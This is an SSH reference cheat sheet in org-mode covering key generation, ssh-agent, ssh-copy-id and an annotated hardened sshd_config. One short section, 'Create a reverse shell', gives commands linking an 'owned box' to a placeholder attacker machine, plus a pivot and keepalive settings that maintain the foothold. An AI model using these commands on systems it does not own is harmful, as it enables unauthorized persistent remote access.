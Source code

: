 #+TAGS: ssh remote_access ssh-copy-id ssh-agent ssh-add ssh-keygen sshd


* ssh
* Files
** /etc/ssh/ssh_config 		
- the config file for the ssh client

** /etc/ssh/sshd_config 		
the config file for the ssh daemon
** /home/user/.ssh/authorized_keys  
this holds remote hosts public keys
** /home/user/.ssh/config  	
this is a way to save host configs
** /home/user/.ssh/known_hosts     
this file holds hashes for all known hosts, hosts that we have previously connected to and authorize that we trust them to be the correct machine.

** Cmds
*** ssh-copy-id
#+BEGIN_SRC sh
ssh-copy-id crito@192.168.0.5
#+END_SRC
You will be prompted for your password, if no ssh key configured
*** ssh-agent
To enable the ssh-agent
#+BEGIN_SRC sh
eval $(ssh-agent)
#+END_SRC

*** ssh-add
#+BEGIN_SRC sh
ssh-add ~/.ssh/git_eurus
#+END_SRC
*** ssh-keygen
*** ssh-copy-id
ssh-copy-id uses the SSH protocol to connect to the target host and upload the SSH user key. The command edits the authorized_keys file on the server. It creates the .ssh directory if it doesn't exist. It creates the authorized keys file if it doesn't exist. Effectively, ssh key copied to server.

It also checks if the key already exists on the server. Unless the -f option is given, each key is only added to the authorized keys file once.

It further ensures that the key files have appropriate permissions. Generally, the user's home directory or any file or directory containing keys files should not be writable by anyone else. Otherwise someone else could add new authorized keys for the user and gain access. Private key files should not be readable by anyone else.
* Cmds
- ssh-agent - this provides a single signin solution
- keychain  - this provides a fronted to ssh-agent and helps if you are using multiple keys
- ssh-xfer  - this provides an in channel download solution (but only from the remote machine)

* Description
* Usage
** ssh Key Generation
#+BEGIN_SRC sh
ssh-keygen
#+END_SRC
This will then prompt for a name for the new key

** Check an ssh keys password
#+BEGIN_SRC sh
eval $(ssh-agent)
ssh-add .ssh/id_rsa
#+END_SRC
If this key has a passphrase you will be challenged. 
To unload the key
#+BEGIN_SRC sh
ssh-add -d .ssh/id_rsa
#+END_SRC
** Generate public key from private key
#+BEGIN_SRC sh
ssh-keygen -y -f .ssh/private_key > .ssh/private_key.public
#+END_SRC

** Enable key only auth
- this will allow only key auth, no password auth
#+BEGIN_EXAMPLE
PasswordAuthentication no
#+END_EXAMPLE
this is the only variable that needs to be changed

** Secure Configuration
*** Network Options
Port 5000 - not usign the default port(22) can avoid common runs agains this port. Sometimes this is not a good idea due to certain application expecting the standard port, this should be considered.

AddressFamily inet - this only allows traffic over ipv4 not ipv6.

ListenAddress 192.168.1.0 - this will mean that the service will only listen on the local network 192.168.1.0, and not be accessable from the internet. ListenAddress 0.0.0.0 will allow the service to be accessed from all addresses.

Protocol 2 - this will only allow protocol 2 to be used, protcol 1 has known weaknesses that can allow exploitation of the service. 

X11Forwarding no - A prefered method for VNC is to tunnel it over ssh, this my be required for certain applications.

TCPKeepalive no - These are sent outside of the encrypted channel and can be spoofed, ClientAliveInterval is encrypted and is unspoofable so works as an alternative.

ClientAliveInterval 60 - secure alternative to TCPKeepalive.

ClientAliveCountMax 3 - The number of attempts that the sshd will illicit a response from the ssh client before disconnecting. Unresponsive ssh client will be disconnected after 3 minutes.

*** Key Configuration
HostKey /etc/ssh/ssh_host_rsa_key - these are the default host key locations
HostKey /etc/ssh/ssh_host_dsa_key

UsePrivilegeSeparation yes - this option splits up server processors in an attempt to prevent privilege escalation

PubkeyAuthentication yes - Use public key authentication for access. Using this option in conjunction with PasswordAuthentication no, means only uses with correct key can access the server.

AuthorizedKeysFile %h/.ssh/authorized_keys - this is the location that remote hosts public keys are kept who will have access.

*** Authentication

AllowUsers user_one user_two - White list the users that can login to the server, this is a space seperated list.

LoginGraceTime 60 - this provides a 60 second window to login to the system when prompted

PermitRootLogin no - Disable root logins completely, not save practice to be login to a server as root, use sudo or wheel group once logged in.

StrictModes yes - this forces the correct permissions of key files, must not be writable by anyone but the owner.

IgnoreRhosts yes - Ignore Rhosts authentication for .rhosts and .shorts files in RhostsRSAAuthentication or HostbasedAuthentication /etc/hosts.equiv is still used if the the HostBasedAuthentication option is not disabled.

HostBasedAuthentication no - Decides if rhosts or /etc/hosts.equiv and a public key is are allowed (host-based authentication.

IgnoreUserKnownHosts yes - This determines if the ~/.ssh/known_hosts file is to be ignored. When accessing multiple boxes on the same ip.

PermitEmptyPasswords no - Password is required for access. In this configuration a key is required.

ChallengeResponseAuthentication no - This is not required as wee aren't using login or password authentication.

PasswordAuthentication no - With this disabled a key is required to login to the server.

UsePAM no - not needed as we aren't using password authentication.

UseLogin no - as priviliege seperation is used login isn't required.

SyslogFacility AUTH - log sshd messages to the AUTH syslog facility, which stores its messages in /var/log/auth.log 
#+BEGIN_SRC sh
grep sshd /var/log/auth.log
#+END_SRC

LogLevel INFO - Defines verbosity of login. Available options SILENT, QUIET, FATAL, ERROR, INFO, VERBOSE, DEBUG, DEBUG2 and DEBUG3. INFO is default

PrintLastLog yes - When user logs in print the last login time. Good option for unauthorized access analysis.

MaxAuthTries 2 - This is the number of attemps that can be tried per connection. Failures are logged after half the number is reached.

Banner /etc/issue.net - this is the banner that greets a user at login

*** configuration
#+BEGIN_EXAMPLE
# user modified sshd_config
# See the sshd(8) manpage for details

#### Networking options ####

# Listen on a non-standard port > 1024
Port 50000

# Restrict to IPv4. inet = IPv4, inet6 = IPv6, any = both 
AddressFamily inet

# Listen only on the internal network address
ListenAddress 192.168.1.0

# Only use protocol version 2
Protocol 2

# Disable XForwarding unless you need it
X11Forwarding no

# Disable TCPKeepAlive and use ClientAliveInterval instead to prevent TCP Spoofing attacks
TCPKeepAlive no
ClientAliveInterval 600
ClientAliveCountMax 3

#### Networking options ####


#### Key Configuration ####

# HostKeys for protocol version 2
HostKey /etc/ssh/ssh_host_rsa_key
HostKey /etc/ssh/ssh_host_dsa_key

#Privilege Separation is turned on for security
UsePrivilegeSeparation yes

# Use public key authentication
PubkeyAuthentication yes
AuthorizedKeysFile      %h/.ssh/authorized_keys

# Disable black listed key usage (update your keys!)
PermitBlacklistedKeys no

#### Key Configuration ####


#### Authentication ####

# Whitelist allowed users
AllowUsers user1 user2

# one minute to enter your key passphrase
LoginGraceTime 60

# No root login
PermitRootLogin no

# Force permissions checks on keyfiles and directories
StrictModes yes

# Don't read the user's ~/.rhosts and ~/.shosts files
IgnoreRhosts yes

# similar for protocol version 2
HostbasedAuthentication no

# Don't trust ~/.ssh/known_hosts for RhostsRSAAuthentication
IgnoreUserKnownHosts yes

# To enable empty passwords, change to yes (NOT RECOMMENDED)
PermitEmptyPasswords no

# Disable challenge and response auth. Unessisary when using keys
ChallengeResponseAuthentication no

# Disable the use of passwords completly, only use public/private keys
PasswordAuthentication no

# Using keys, no need for PAM. Also allows SSHD to be run as a non-root user
UsePAM no

# Don't use login(1)
UseLogin no

#### Authentication ####


#### Misc ####

# Logging
SyslogFacility AUTH
LogLevel INFO

# Print the last time the user logged in
PrintLastLog yes

MaxAuthTries 2

MaxStartups 10:30:60

# Display login banner
Banner /etc/issue.net

# Allow client to pass locale environment variables
AcceptEnv LANG LC_*

Subsystem sftp /usr/lib/openssh/sftp-server

#### Misc ####
#+END_EXAMPLE

** Copy new public key to remote server
- this will assume that you are connecting to a user with the same username as you
#+BEGIN_SRC sh
ssh-copy-id 78.87.56.34
#+END_SRC

- here we are specifiying which user we would like to sort the key under
#+BEGIN_SRC sh
ssh-copy-id frank@78.87.56.34
#+END_SRC

** ssh-agent
- Using ssh-agent with multiple keys can cause problems when login into many servers.
  - Each key is considered an attempt, so if a limit is set then you can end up locked out.

- If GDM is used ssh-agent is started automatically
  - to start automatically with other desktop managers
    ~/.xsession
    #+BEGIN_EXAMPLE
    ssh-agent gnome-session
    #+END_EXAMPLE
    substituting gnome with the window manger in use
    
- keychain
  - this is a front-end to ssh-agent
  - to have this start on login
    ~/.bash_profile
    #+BEGIN_EXAMPLE
    #!/bin/bash
    /usr/bin/keychain ~/.ssh/id_rsa ~/.ssh/id_dsa ~/.ssh/root_key > /dev/null
    source ~/.keychain/hostname-sh
    #+END_EXAMPLE
    hostname should correspond with the machines hostname
  


** Setting up ssh-agent as a sysd service
#+BEGIN_EXAMPLE
[Unit]
Description=SSH key agent

[Service]
Type=forking
Environment=SSH_AUTH_SOCK=%t/ssh-agent.socket
ExecStart=/usr/bin/ssh-agent -a $SSH_AUTH_SOCK

[Install]
WantedBy=default.target
#+END_EXAMPLE

** Adding to zshrc
- add this line to .zshrc
#+BEGIN_EXAMPLE
export SSH_AUTH_SOCK="$XDG_RUNTIME_DIR/ssh-agent.socket"
#+END_EXAMPLE
** add key/identity
#+BEGIN_SRC sh
ssh-add $KEY
#+END_SRC

** Check what identities are currently set
#+BEGIN_SRC sh
ssh-add -l
#+END_SRC

** remove key/identity
#+BEGIN_SRC sh
ssh-add -d $KEY
#+END_SRC

** remove all keys/identities
#+BEGIN_SRC sh
ssh-add -D
#+END_SRC

** Changing SSH port

vi /etc/ssh/sshd\_config

change port to 22 (or any other number) or add another line to add
another port

service sshd reload
** Disable root login
#+BEGIN_EXAMPLE
PermitRootLogin no
#+END_EXAMPLE
** Only allow ssh protocol v2
#+BEGIN_EXAMPLE
Protocol 2
#+END_EXAMPLE
** Create a reverse shell
- this would only provide one step away from the target machine
#+BEGIN_SRC sh
ssh -R 1337:localhost:22 root@attacker_machine
#+END_SRC
the cmd connects the owned box to the attacker's machine using port 1337

- using a machine between attacker and target
#+BEGIN_SRC sh
ssh -L 31337:localhost:1337 -f -N -g root@attacker_machine
#+END_SRC
now the the attacker connects from another machine to 31337 and is connected to the owned machine

- the owned machine would quickly timeout if the sshd_config hasn't been edited
#+BEGIN_EXAMPLE
TCPKeepAlive yes
ClientAliveInterval 30
ClientAliveCountMax 99999
#+END_EXAMPLE

** Execute cmds on remote machine
#+BEGIN_SRC sh
ssh user@54.165.122.155 ls
#+END_SRC
this will return the ls of the users home directory, this can be handy for executing a script without connecting

** Kerberos
- these need to set in /etc/ssh/sshd_config
#+BEGIN_EXAMPLE
KerberosAuthentication yes
KerberosOrLocalPasswd yes
GSSAPIAuthentication yes

#+END_EXAMPLE
* Lecture
* Tutorial
** Linux Academy - Server Application Requires a Secure SSH connection
Guide: [[file://home/crito/Documents/Linux/Labs/secure-ssh-lab.pdf][SSH connection]] 

* Books
* Links
[[https://www.slac.stanford.edu/comp/unix/sshGSSAPI.html][Using SSH and GSSAPI Authentication]]
